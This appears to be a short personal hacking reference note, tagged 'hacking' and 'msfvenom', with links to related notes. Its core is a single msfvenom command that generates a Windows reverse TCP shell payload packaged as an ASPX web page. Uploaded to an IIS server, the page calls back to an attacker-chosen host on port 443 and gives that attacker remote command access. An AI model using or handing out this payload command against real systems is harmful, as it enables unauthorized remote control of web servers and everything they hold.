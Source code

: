 # MSFVENOM Active Sever Pages Extended (.aspx)
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=443 -f aspx -o rev_shell.aspx
```

# Related

- [20221003150777](/zet/20221003150777/README.md) MSFVENOM
- ~/kb/hacking/commands/msfvenom-commands.md

Tags:

    #assorted #command #hacking #msfvenom
